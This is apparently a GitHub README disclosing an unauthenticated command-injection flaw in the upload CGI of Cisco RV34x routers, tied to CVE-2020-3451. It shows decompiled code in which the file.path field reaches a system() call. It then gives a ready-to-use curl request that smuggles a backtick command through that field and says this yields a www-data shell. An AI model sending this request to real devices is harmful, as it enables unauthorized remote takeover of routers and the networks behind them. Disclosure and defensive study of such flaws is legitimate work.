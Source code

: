 ## cisco-RV34x-RCE
The bug was found several mounths ago and it was reported by others.   
The cve-id should be CVE-2020-3451 or ....   

## Detail
The bug exists in upload cgi.   
```
  ......
  jsonutil_get_string(dword_22F84, &v24, "\"file.path\"", -1);
  jsonutil_get_string(dword_22F84, &haystack, "\"filename\"", -1);
  jsonutil_get_string(dword_22F84, &v25, "\"pathparam\"", -1);
  jsonutil_get_string(dword_22F84, &v26, "\"fileparam\"", -1);
  jsonutil_get_string(dword_22F84, &v27, "\"destination\"", -1);
  jsonutil_get_string(dword_22F84, &v28, "\"option\"", -1);
  jsonutil_get_string(dword_22F84, &v29, "\"cert_name\"", -1);
  jsonutil_get_string(dword_22F84, &v30, "\"cert_type\"", -1);
  jsonutil_get_string(dword_22F84, &v31, "\"password\"", -1);
  if ( v3 )
  {
    StrBufSetStr(v33, v3);
    v3 = 0;
    v10 = (char *)StrBufToStr(v33);
    for ( i = strtok_r(v10, ";", &save_ptr); i; i = strtok_r(0, ";", &save_ptr) )
    {
      v12 = strstr(i, "sessionid=");
      if ( v12 )
        v3 = v12 + 10;
    }
  }
  if ( !v24 )
  {
    puts("Content-type: text/html\n");
    printf("Error Input");
    goto LABEL_24;
  }
  StrBufSetStr(v34, v26);
  v13 = haystack;
  if ( haystack )
  {
    if ( strstr(haystack, ".xml") )
    {
      v14 = "Configuration";
    }
    else
    {
      if ( !strstr(v13, ".img") )
      {
LABEL_18:
        StrBufSetStr(v34, v13);
        goto LABEL_19;
      }
      v14 = "Firmware";
    }
    v25 = v14;
    goto LABEL_18;
  }
LABEL_19:
  v15 = v25;
  v16 = v24;
  v17 = StrBufToStr(v34);
  sub_11500(pathparam, file.path, filename);
  ......
```
Step into sub_11500:   
```
 ...
  sprintf(&s, "%s/%s", v7, v4);
  sprintf((char *)&v11, "mv -f %s %s", file.path, &s);
  debug("cmd=%s", &v11);
  result = v11;
  if ( v11 )
  {
    v10 = system((const char *)&v11);
    if ( v10 < 0 )
      error((int)"upload.cgi: %s(%d) Upload failed!", (int)"prepare_file", (const char *)0xAA);
    result = v10;
  }
  return result;
}
...
```
It's easy to inject a system command.    
And there should be other cmdi bug(s) in the cgi.   

To trigger it:
```
curl -i -k https://192.168.1.1/upload -X POST -F 'filename=config.xml' -F 'input="<input><fileType>configuration</fileType><source><location-url>FILE://Configuration/config.xml</location-url></source><destination><config-type>config-running</config-type></destination></input>"' -F "file=@/tmp/1" -F "file.path=/tmp/input\`cmd to execute\`" -H "Accept: application/vnd
.yang.data+xml" >/dev/null 2>&1
```
It doesn't requrie authentication and you can get a shell with www-data privilege.
